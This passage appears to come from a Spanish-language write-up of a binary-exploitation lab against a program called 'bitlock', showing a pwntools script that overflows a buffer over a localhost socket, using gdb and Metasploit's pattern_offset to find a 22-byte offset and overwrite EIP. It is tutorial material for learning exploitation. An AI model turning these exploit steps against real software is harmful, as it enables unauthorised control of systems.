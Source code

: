 ```python



    payload = pattern


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()

```

Listo, ya tenemos la base del exploit, ahora necesitaremos de `gdb` para poder depurar el binario:

```css
gdb -q ./bitlock
```

(Para que sea mas sencillo, se puede instalar [Pwndbg](https://github.com/pwndbg/pwndbg))

en gdb ejecutamos `run` y el binario estará iniciado, ahora solo nos queda ejecutar el exploit y ver que ocurre:

```css
EIP  0x61413761 ('a7Aa')
```

Como vemos, el EIP se ha rellenado con nuestro pattern, por lo que ahora podemos obtener el valor del offset usando la herramienta `pattern_offset` de metasploit:

```css
❯ /opt/metasploit/tools/exploit/pattern_offset.rb -q a7Aa
[*] Exact match at offset 22
```

Perfecto, ya tenemos el offset, vamos a actualizar el exploit para poder **tomar el control del EIP**:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = b"B"*4




    payload = buffer + eip


    conectar = remote(ip, port)
```